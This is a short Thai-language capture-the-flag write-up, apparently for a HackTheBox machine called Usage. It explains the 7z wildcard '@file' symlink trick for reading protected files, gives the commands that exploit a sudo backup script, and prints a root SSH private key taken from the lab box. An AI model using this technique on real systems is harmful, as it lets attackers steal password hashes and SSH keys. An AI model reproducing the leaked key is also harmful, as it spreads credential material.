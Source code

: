 **พบช่องโหว่การใช้ Wildcard (`*`) ในคำสั่ง `7z` หรือ `7za` สามารถถูกโจมตีได้โดยใช้ไฟล์ที่ชื่อเริ่มต้นด้วย @ และ symlink เพื่ออ่านไฟล์สำคัญโดยไม่ได้รับอนุญาต**

เทคนิคการโจมตี (Wildcard Symbolic Link Attack):
1. **สร้างไฟล์สองไฟล์:**
   - ไฟล์หนึ่งชื่อ `@whatever`
   - อีกไฟล์ชื่อ `whatever` ซึ่งเป็น **symlink** ไปยังไฟล์ที่เราต้องการอ่าน เช่น `/etc/passwd`

2. **เมื่อใช้ `7z` กับ wildcard เช่น:**
   ```bash
 /usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
   ```
   มันจะแปลงคำสั่งเป็น:
   ```bash
   7za a archive.zip -tzip -snl -mmt -- @whatever whatever [files...]
   ```

3. **7z จะเห็น `@whatever` และพยายามอ่านเนื้อหาของ `whatever` เป็นรายการไฟล์**
   - แต่ถ้า `whatever` เป็น symlink มันจะตามไปอ่านไฟล์ปลายทางแทน
   - แม้ว่าจะไม่ใช่รายการไฟล์จริง ๆ แต่ 7z ก็จะแสดงข้อความผิดพลาดที่มีเนื้อหาของไฟล์นั้น

4. **ผลลัพธ์:** เราสามารถดึงข้อมูลจากไฟล์ใด ๆ ได้ เช่น `/etc/shadow`, `/root/.ssh/id_rsa` ฯลฯ โดยไม่ต้องเปิดไฟล์โดยตรง

อ้างอิง https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html#id-7z 

## 7z Exploit 
```
cd /var/www/html
touch @ice; ln -fs /root/root.txt ice
sudo usage_management
```


![[Challenge/HTB Challenge/Usage/IMG/021.png]]


```id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
-----END OPENSSH PRIVATE KEY-----
```

# PWNED 